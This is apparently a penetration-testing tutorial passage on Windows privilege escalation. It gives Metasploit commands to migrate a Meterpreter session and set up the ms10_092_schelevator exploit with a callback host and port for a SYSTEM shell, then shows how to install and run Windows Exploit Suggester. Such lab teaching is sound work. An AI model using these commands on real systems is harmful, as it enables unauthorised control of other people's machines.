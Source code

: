 Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process:
```console
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1
meterpreter > getpid
meterpreter > ps
meterpreter > migrate <PID>
meterpreter > bg
```

Once this is set, we can now set up the privilege escalation module by specifying our current Meterpreter session:
```console
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost <OUR IP>
msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443
```

If all goes to plan, once we type exploit, we will receive a new Meterpreter shell as the **NT AUTHORITY\SYSTEM**.

## Windows Desktop Versions 

Over the years, Microsoft has added enhanced security features to subsequent versions of Windows Desktop. We can use the [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). To install it:
```console
zero@pio$ sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
zero@pio$ sudo tar -xf setuptools-2.0.tar.gz; cd setuptools-2.0/; sudo python2.7 setup.py install 

zero@pio$ sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
zero@pio$ sudo tar -xf xlrd-1.0.0.tar.gz; cd xlrd-1.0.0/; sudo python2.7 setup.py install;
```

Once this is done, we need to capture the `systeminfo` command's output and save it to a text file on our attack VM:
```console
C:\zeropio> systeminfo
```

We then need to update our local copy of the Microsoft Vulnerability database. This command will save the contents to a local Excel file:
```console
zero@pio$ sudo python2.7 windows-exploit-suggester.py --update
```

Once this is done, we can run the tool against the vulnerability database to check for potential privilege escalation flaws:
```console
zero@pio$ python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt 
```

In the case of a Meterpreter we can use the `post/multi/recon/local_exploit_suggestor` module.
